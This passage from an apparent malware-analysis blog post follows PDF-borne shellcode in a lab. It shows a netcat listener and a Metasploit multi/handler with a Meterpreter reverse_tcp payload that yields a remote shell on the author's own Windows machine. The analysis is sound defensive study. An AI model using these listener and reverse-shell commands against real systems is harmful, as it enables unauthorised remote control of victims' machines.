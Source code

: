 We'll modify our listener to send 4 bytes because the recv function expects a length of 4.

```shell
echo aaaa | nc -lvnp 4444
```

Excellent! After the recv() function returns, EAX holds the count of the number of bytes read, which is 4. We can observe our 4 'a's on the stack.

![]({{site.baseurl}}/images/Pasted image 20240515154717.png)

The next library called is VirtualAlloc, which sets up an area in memory to store the data.

```c
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress        0,
  [in]           SIZE_T dwSize           0x61616161,
  [in]           DWORD  flAllocationType 0x1000,
  [in]           DWORD  flProtect        0x40
);
```

This part posed some challenges as I experimented with various data types and lengths without success. The next API call would typically be another recv() to read more data into the same buffer. Then, I recalled that this payload might have been generated with Metasploit. So, why not use their tool to start a reverse shell listener? Perhaps there's some exchange of bytes required to establish a complete connection or reverse shell that I don't fully know yet!

Loading up msfconsole, we set our configuration as:

```shell
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.0.12
set LPORT 4444
exploit
```

Now, instead of breaking on our library check, we'll undo it and allow the program to continue.

Look at that! Success! As a wise man once said, "Bob's your uncle!!!" 👾

![]({{site.baseurl}}/images/Pasted image 20240515192941.png)

We now have a full shell on the remote host, our Windows machine.

# Conclusion
Reflecting on our journey, what once seemed like an enigma now unfolds with clarity. Yet, let's not forget our humble beginnings. We embarked on this adventure armed with curiosity, diving into a public malware database driven by community collaboration. From there, we took the first PDF malware program we stumbled upon. With that in hand, we delved into OSINT (Open Source Intelligence) research, scouring platforms like VirusTotal and Tria.ge to glean insights and unravel the program's characteristics and behaviors.

Our journey didn't stop there. We dove deeper into the intricate world of static analysis, meticulously dissecting the file, scrutinizing the PDF's structure, and even extracting snippets of malicious JavaScript code concealed within its layers.
